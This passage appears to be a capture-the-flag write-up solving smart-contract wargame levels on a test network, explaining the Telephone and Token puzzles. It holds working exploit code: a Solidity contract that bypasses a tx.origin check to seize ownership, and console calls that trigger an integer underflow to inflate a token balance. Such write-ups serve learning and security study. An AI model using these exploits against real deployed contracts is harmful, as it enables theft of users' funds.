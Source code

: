 We will deploy this contract on Rinkeby and call the `IncreaseItBy1()` manually 10 times. We can verify the results by getting the value of **consecutiveWins** storage variable.

```jsx
> x = await contract.consecutiveWins()

> x.toString()
< '10'
```

# 4. Telephone

The conditional in the `changeOwner()` can be passed only if the origin of the transaction is not the same as the last message sender. The `tx.origin` global variable refers to the original external account that started the transaction while `msg.sender` refers to the immediate account (it could be external or another contract account) that invokes the function. So we will simply need to write an intermediate contract and invoke the `changeOwner()` from it.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./Telephone.sol";

contract Test {
    Telephone public telephone;

    constructor(address telephoneContractAddress) public {
        telephone = Telephone(telephoneContractAddress);
    }

    function forwardTransaction(address newOwner) public {
        telephone.changeOwner(newOwner);
    }
}
```

# 5. Token

This is a simple uint overflow problem since there are no **SafeMath** checks for uint overflows. Passing any number larger than 20 to the **value** param of the `transfer()` will do the job for us. For example, passing 21 will result in 20 - 21 which is equal to UintMax.

```solidity
> await contract.transfer("0x70147a35F3f84F7D4d7c8bA5a89648e3cFBDAA5C", 21)

> x = await contract.balanceOf("0x136801a295932bEcE62ef615bEFC3DE0259D565F")

> x.toString()
< '115792089237316195423570985008687907853269984665640564039457584007913129639935'
```

# 6. Delegation
